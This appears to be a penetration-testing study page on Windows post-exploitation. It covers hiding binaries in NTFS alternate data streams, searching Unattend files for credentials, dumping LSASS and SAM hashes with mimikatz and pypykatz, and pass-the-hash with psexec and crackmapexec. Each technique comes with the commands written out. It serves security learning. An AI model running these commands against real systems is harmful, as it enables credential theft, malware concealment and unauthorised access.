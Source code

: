 ### Alternate Data Strings

Alternate Data Strings is an NTFS file attribute, it has two streams:

- Data stream: Default stream conatins the data of the file
- Resource stream: contains the metadata of the files

ADS can be used to hide malicious code or executables to evade detection. Storing code or executables in the file attribute resource stream of a legitimate file.

A binary can be hidden into a legitimate txt file by using `type malicious_bin.exe > test.txt:malicious_bin.exe`

Then it can be used with a symbolic link to make things more difficult `mklink <symbolic_link_name> C:\Temp\test.txt:malicious_bin.exe`

## Credential Dumping

### Searching crendentials in Unattend Files

Some unattend files store user accounts credentials encoded in base64 those could be found in:

- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Autounattend.xml`

Another good option is to use `PowerUp.ps1` script the steps to repoduce it are:

1. Enable execution policy `powershell -ep bypass`
2. Load the module and execute PrivescAudit feature `.\PowerUp.ps1` -> `Invoke-PrivescAudit`

### Dumping Hashes

To dump hashes by using mimikatz is important to run a session with elevated privileges, this is becouse mimikatz will interact with LSASS process to dump the SAM database.

For using mimikatz in metasploit:

- `load kiwi` will load the mimikatz module
- `lsa_dump_sam` will dump SAM DB
- `lsa_dump_secrets` will dump cached sotred password, domain records and user credentials or hashes

It can be done with the mimikatz binary doe:

- `priivlege::debug` will show if the privs are the needed ones
- `sekurlsa::logonpasswords` will dump logon sessions and their plaintext password if applies
- `sekurlsa::minidump lsass` will dump lsass process
- `lsadump::sam` will dump SAM DB
- `lsadump::secrets`

Pypykatz is similar to mimikatz but its written in python:

- `pypykatz.py lsa minidump lsass.dmp` will dump lsass process

### Pass The Hash

In the case of SMB servers allows an user to authenticate throught a hash for it metasploit provides `windows/smb/psexec` module similarly to `psexec.py` script it lets an attacker to obtain a cmd sessions via SMB by providing an user and it hash.

Another tool used to obtain CLI sessions with other protocols is `crackmapexec` -> `crackmapexec <protocol> -u <user> -H <password_hash> -x "<command>"`
